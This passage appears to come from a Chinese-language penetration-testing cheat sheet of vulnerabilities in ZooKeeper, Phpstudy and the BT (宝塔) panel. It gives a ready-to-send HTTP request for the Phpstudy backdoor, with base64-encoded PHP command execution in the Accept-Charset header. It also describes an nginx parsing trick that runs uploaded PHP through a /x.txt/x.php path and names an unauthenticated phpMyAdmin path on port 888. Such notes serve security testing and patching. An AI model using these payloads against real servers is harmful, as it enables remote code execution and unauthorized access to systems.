     Apache Zookeeper 中存在安全漏洞，该漏洞源于程序记录明文 admin 密码。本地攻击者可通过读取日志利用该漏洞获取敏感信息。

- 相关文章
    - [ZooKeeper信息泄露漏洞(CVE-2014-085)](http://www.voidcn.com/article/p-ebikooyk-oa.html)

---

# 集成

## Phpstudy

**Phpstudy 后门 RCE**
- POC | Payload | exp
    ```
    GET /1.php HTTP/1.1
    Host: example.com
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding:gzip,deflate
    Accept-Charset:这里就是要执行的命令base64加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
    Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
    Connection: close
    ```

**PhpStudy nginx 解析漏洞**
- 相关文章
    - [phpStudy默认配置致Nginx解析漏洞复现](https://mp.weixin.qq.com/s/nMgFxNzWfCe7m5DtkIBkgQ)

- POC | Payload | exp
    需要把 php 恶意文件上传到服务器。
    ```
    <?php phpinfo();?>
    ```
    通过 /x.txt/x.php 方式访问上传的图片地址,解析 php 代码。

---

## 宝塔

**宝塔面板 phpMyadmin 未授权访问**
- POC | Payload | exp
    ```
    xxx.xxx.xxx.xxx:888/pma
    ```

---
